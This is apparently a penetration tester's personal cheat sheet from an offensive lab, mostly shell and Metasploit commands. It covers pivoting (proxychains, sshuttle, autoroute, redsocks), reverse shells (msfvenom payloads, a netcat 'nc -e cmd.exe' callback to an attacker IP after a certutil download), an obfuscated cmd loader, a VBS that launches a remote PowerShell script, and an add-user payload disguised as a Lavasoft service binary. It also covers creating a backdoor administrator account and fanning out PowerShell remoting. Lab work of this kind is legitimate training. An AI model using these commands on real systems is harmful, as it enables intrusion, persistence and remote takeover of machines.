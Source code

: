 # These are just tricks I picked up in offshore, will get exploded into different dirs at some point.

#### Pivoting

### method 1:

Add to proxychains.conf:
`socks4 127.0.0.1 1080`  
`ssh -D 1080 -i 10.10.110.123/root_ssh root@NIX01`  
`proxychains nmap -sV 172.16.1.0-254`  

### Method 2:
*if I could nmap through this tunnel it would be the preffered method  

`sshuttle -vr root@NIX01 172.16.1.1/24 --ssh-cmd "ssh -i 10.10.110.123/root_ssh"`  

### Method 3:  
msf > use auxiliary/scanner/ssh/ssh_login_pubkey  
msf auxiliary(ssh_login_pubkey) > set RHOSTS 10.10.110.123    
msf auxiliary(ssh_login_pubkey) > set USERNAME root  
msf auxiliary(ssh_login_pubkey) > set KEY_PATH 10.10.110.123/root_ssh  
msf auxiliary(ssh_login_pubkey) > run  
ctrl+z
sessions -u 2
background
use auxiliary/server/socks_proxy
run


meterpreter > run post/multi/manage/autoroute  
CTRL+Z  
use auxiliary/scanner/portscan/tcp   
set RHOSTS 172.16.1.0/24  

### Method 4:  

`ssh -D 1080 -i 10.10.110.123/root_ssh root@NIX01` *1080 is redsocks proxy default*  
`echo 1 > /proc/sys/net/ipv4/ip_forward`  
`iptables -t nat -A OUTPUT -p tcp -d 172.16.1.0/24 -j REDIRECT --to-ports 12345`  
`iptables -t nat -A PREROUTING -p tcp -d 172.16.1.0/24 -j REDIRECT --to-ports 12345`  
`/usr/sbin/redsocks -c /etc/redsocks.conf `

# Get a proper shell from a half/broken shell
`msfvenom -p cmd/unix/reverse_python lhost=69.201.13.55 lport=3344 R`
paste in your shell, profit
`python -c 'import pty; pty.spawn("/bin/sh")'`

## Start mult/handler:
`sudo msfconsole -x "use exploits/multi/handler; set lhost 10.10.14.14; set lport 443; set payload windows/meterpreter/reverse_tcp; exploit"`
`msfvenom -p windows/x64/meterpreter_reverse_http -f psh LHOST=10.10.14.14 LPORT=443 -o l.ps1`

## Start SMB for infil/exfil:  
`$ sudo impacket-smbserver -smb2support GUEST /home/kymb0/Desktop/backup/offshore/toolz`

## Reverse shell vbs (remember to run PS shellcode through https://github.com/danielbohannon/Invoke-obfuscation)
`Set objShell = CreateObject("Wscript.Shell")
objShell.Run("powershell.exe -noexit \\10.10.14.14\GUEST\l.ps1")`

## Reverse shell bat (remember to run through https://github.com/danielbohannon/Invoke-DOSfuscation)
cmd.exe /c
certutil.exe -urlcache -split -f http://10.10.14.14/nc.exe 
C:\ManageEngine_new\OpManager\logs\nc.exe
C:\ManageEngine_new\OpManager\logs\nc.exe -nv 10.10.14.14 443 -e cmd.exe

EG:  
```
cmd /V:ON/C"set Eiz8=d3uc 0v-olCeh\xt.saip1mEO:fn4gMwr/_&&for %n in (3,22,0,16,11,14,11,4,33,3,4,3,11,32,15,2,15,19,9,16,11,14,11,4,7,2,32,9,3,18,3,12,11,4,7,17,20,9,19,15,4,7,26,4,12,15,15,20,25,33,33,21,5,16,21,5,16,21,28,16,21,28,33,27,3,16,11,14,11,4,10,25,13,30,18,27,18,29,11,23,27,29,19,27,11,34,27,11,31,13,24,20,30,18,27,18,29,11,32,13,9,8,29,17,13,27,3,16,11,14,11,4,10,25,13,30,18,27,18,29,11,23,27,29,19,27,11,34,27,11,31,13,24,20,30,18,27,18,29,11,32,13,9,8,29,17,13,27,3,16,11,14,11,4,7,27,6,4,21,5,16,21,5,16,21,28,16,21,28,4,28,28,1,4,7,11,4,3,22,0,16,11,14,11,39)do set xoi=!xoi!!Eiz8:~%n,1!&&if %n gtr 38 call %xoi:~5%"
```
## Add user payload
`msfvenom -p windows/adduser USER=Admin PASS=Admin123 -f exe -o Lavasoft.WCAssistant.WinService.exe`
`msfvenom -f exe -p windows/exec CMD="cmd /c C:\Users\ned.flanders_adm/test.bat" -o Lavasoft.WCAssistant.WinService.exe `

## Exploit unquoted service paths
All exe's from msfvenom and powerup NO WORK, even bat file to grab NC got caught, so I made a user:
https://bat2exe.net/
net user shrek shrekt123 /add
net localgroup administrators shrek /add

## lateral  
1:1 remoting  
`new-pssession -computername <computer_name.fqdn>`  
1:MANY (aka fan-out remoting)
  * can execute commands AND scripts 
  * Can be run against multiple machines and even disconnected sessions
  * Useful for using creds, getting hashes and executing commands
  * `invoke-command -computername <computername> -scriptblock{whoami;hostname}`
  * `invoke-command -computername (get-content serverlist.txt) -scriptblock{whoami;hostname}`
  * `invoke-command -computername (get-content serverlist.txt) -filepath c:\path\to\passhashes.ps1`
In some cases there may be language constraints on a machine, in this case we must invoke a script that creates a function into a session, enter that session and THEN run the function - rather than attempting to run the script directly to the target.
eg script contains:
```
Function test
{
write-output "welcome to the thunderdome"
}
```
